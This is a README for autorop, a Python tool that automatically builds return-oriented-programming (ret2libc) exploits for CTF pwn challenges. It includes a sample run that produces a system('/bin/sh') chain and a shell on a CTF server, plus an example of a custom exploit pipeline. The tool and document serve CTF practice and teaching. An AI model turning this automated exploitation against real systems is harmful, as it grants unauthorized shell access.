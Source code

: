 autorop
=======

|docs| |Test status| |MIT license|

Automated solver of classic CTF pwn challenges, with flexibility in mind.

Official documentation can be found at `autorop.readthedocs.io <https://autorop.readthedocs.io>`_.

Disclaimer
----------

Do not use this software for illegal purposes. This software is intended to be used in legal Capture the Flag competitions only.

Command line
------------

.. code-block:: text

    $ autorop
    Usage: autorop BINARY [HOST PORT]

.. code-block:: text

    $ autorop tests/bamboofox/ret2libc bamboofox.cs.nctu.edu.tw 11002
    [+] Opening connection to bamboofox.cs.nctu.edu.tw on port 11002: Done
    [*] '/data/Projects/autorop/tests/bamboofox/ret2libc'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [*] Pipeline [1/4]: corefile
    ...
    [*] Pipeline [4/4]: system_binsh
    [*] Loaded 151 cached gadgets for '.autorop.libc'
    [*] 0x0000:       0xf7e09e70 system(0xf7f29fcc)
        0x0004:       0xf7df7bfa <adjust @0xc> add esp, 4; ret
        0x0008:       0xf7f29fcc arg0
        0x000c:        0x80484ed main()
    [*] Switching to interactive mode
    Hello!
    The address of "/bin/sh" is 0x804a02c
    The address of function "puts" is 0xf7e2eda0
    $ wc -c /home/ctf/flag
    57 /home/ctf/flag


API
---

Importing autorop automatically does a ``from pwn import *``, so you can use all of `pwntools' goodies <https://docs.pwntools.com/en/latest/>`_.

Central to autorop's design is the `pipeline <https://en.wikipedia.org/wiki/Pipeline_(software)>`_. Most functions take in a ``PwnState``, and pass it on to the next function with some attributes changed. ``PwnState`` itself is immutable, so a copy is returned. This allows great simplicity and flexibility.

See how the below example neatly manages to "downgrade" the problem from something unique, to something generic that the ``classic`` pipeline can handle.

.. code-block:: python

    from autorop import *

    BIN = "./tests/tjctf_2020/stop"


    def send_letter_first(t, data):
        # the binary expects us to choose a letter first, before it takes input unsafely
        t.sendline("A")
        # avoid messing up output by cleaning it of whatever "A" did
        t.clean(constants.CLEAN_TIME)
        # send actual payload
        t.sendline(data)
        # clean output so generic output gets out of the way
        t.recvuntil(b"Sorry, we don't have that category yet\n")


    # in this case a function is overkill,
    # but demonstrates the flexibility of custom pipelines
    def set_overwriter(state):
        state.overwriter = send_letter_first
        return state


    # create a starting state
    s = PwnState(BIN, process(BIN))

    # build a custom pipeline - base classic pipeline, with printf for leaking
    s = pipeline(s, set_overwriter, turnkey.classic(leak=leak.printf))

    # switch to interactive shell which we got via the exploit
    s.target.interactive()

.. |docs| image:: https://readthedocs.org/projects/autorop/badge/
    :target: https://autorop.readthedocs.io

.. |Test status| image:: https://github.com/mariuszskon/autorop/workflows/autorop%20test/badge.svg
    :target: https://github.com/mariuszskon/autorop/actions?query=workflow%3A%22autorop+test%22

.. |MIT license| image:: https://img.shields.io/badge/license-MIT-blue.svg
    :target: https://github.com/mariuszskon/autorop/blob/master/LICENSE

Install
-------

1. Install `libc-database <https://github.com/niklasb/libc-database>`_ into ``~/.libc-database`` (or your own location then edit ``state.libc_database_path``).
2. Install autorop itself. You might want to be in your `python virtual environment <https://docs.python.org/3/tutorial/venv.html>`_. After cloning, install with pip:

.. code-block:: text

    $ git clone https://github.com/mariuszskon/autorop && cd autorop && pip install .

3. Make sure corefiles are enabled and are plainly written to the right directory:

.. code-block:: text

    # sysctl -w kernel.core_pattern=core.%p

4. All done!
